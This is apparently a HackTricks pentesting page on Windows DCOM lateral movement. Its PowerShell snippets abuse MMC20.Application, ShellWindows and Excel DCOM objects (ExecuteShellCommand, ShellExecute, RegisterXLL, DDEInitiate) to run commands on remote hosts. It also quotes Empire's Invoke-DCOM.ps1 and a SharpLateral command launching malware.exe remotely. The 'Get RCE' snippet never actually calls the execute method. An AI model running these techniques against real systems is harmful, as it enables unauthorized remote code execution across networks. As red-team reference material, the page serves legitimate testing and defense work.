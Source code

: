 # DCOM Exec

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud)..

</details>

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

***

## MMC20.Application

**For more info about this technique chech the original post from [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**


Distributed Component Object Model (DCOM) objects present an interesting capability for network-based interactions with objects. Microsoft provides comprehensive documentation for both DCOM and Component Object Model (COM), accessible [here for DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) and [here for COM](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). A list of DCOM applications can be retrieved using the PowerShell command:

```bash
Get-CimInstance Win32_DCOMApplication
```

The COM object, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), enables scripting of MMC snap-in operations. Notably, this object contains a `ExecuteShellCommand` method under `Document.ActiveView`. More information about this method can be found [here](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Check it running:

This feature facilitates the execution of commands over a network through a DCOM application. To interact with DCOM remotely as an admin, PowerShell can be utilized as follows:

```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```

This command connects to the DCOM application and returns an instance of the COM object. The ExecuteShellCommand method can then be invoked to execute a process on the remote host. The process involves the following steps:

Check methods:

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```

Get RCE:

```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```

## ShellWindows & ShellBrowserWindow

**For more info about this technique check the original post [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

The **MMC20.Application** object was identified to lack explicit "LaunchPermissions," defaulting to permissions that permit Administrators access. For further details, a thread can be explored [here](https://twitter.com/tiraniddo/status/817532039771525120), and the usage of [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET for filtering objects without explicit Launch Permission is recommended.

Two specific objects, `ShellBrowserWindow` and `ShellWindows`, were highlighted due to their lack of explicit Launch Permissions. The absence of a `LaunchPermission` registry entry under `HKCR:\AppID\{guid}` signifies no explicit permissions.

###  ShellWindows
For `ShellWindows`, which lacks a ProgID, the .NET methods `Type.GetTypeFromCLSID` and `Activator.CreateInstance` facilitate object instantiation using its AppID. This process leverages OleView .NET to retrieve the CLSID for `ShellWindows`. Once instantiated, interaction is possible through the `WindowsShell.Item` method, leading to method invocation like `Document.Application.ShellExecute`.

Example PowerShell commands were provided to instantiate the object and execute commands remotely:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```

### Lateral Movement with Excel DCOM Objects

Lateral movement can be achieved by exploiting DCOM Excel objects. For detailed information, it's advisable to read the discussion on leveraging Excel DDE for lateral movement via DCOM at [Cybereason's blog](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom).

The Empire project provides a PowerShell script, which demonstrates the utilization of Excel for remote code execution (RCE) by manipulating DCOM objects. Below are snippets from the script available on [Empire's GitHub repository](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), showcasing different methods to abuse Excel for RCE:

```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $isx64 = [boolean]$obj.Application.ProductCode[21]
    Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
    $Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
    $Obj = [System.Activator]::CreateInstance($Com)
    $Obj.DisplayAlerts = $false
    $Obj.DDEInitiate("cmd", "/c $Command")
}
```

### Automation Tools for Lateral Movement

Two tools are highlighted for automating these techniques:

- **Invoke-DCOM.ps1**: A PowerShell script provided by the Empire project that simplifies the invocation of different methods for executing code on remote machines. This script is accessible at the Empire GitHub repository.

- **SharpLateral**: A tool designed for executing code remotely, which can be used with the command:

```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```


## Automatic Tools

* The Powershell script [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) allows to easily invoke all the commented ways to execute code in other machines.
* You could also use [**SharpLateral**](https://github.com/mertdas/SharpLateral):

```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```

## References

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

**Try Hard Security Group**

<figure><img src="/.gitbook/assets/telegram-cloud-document-1-5159108904864449420.jpg" alt=""><figcaption></figcaption></figure>

{% embed url="https://discord.gg/tryhardsecurity" %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
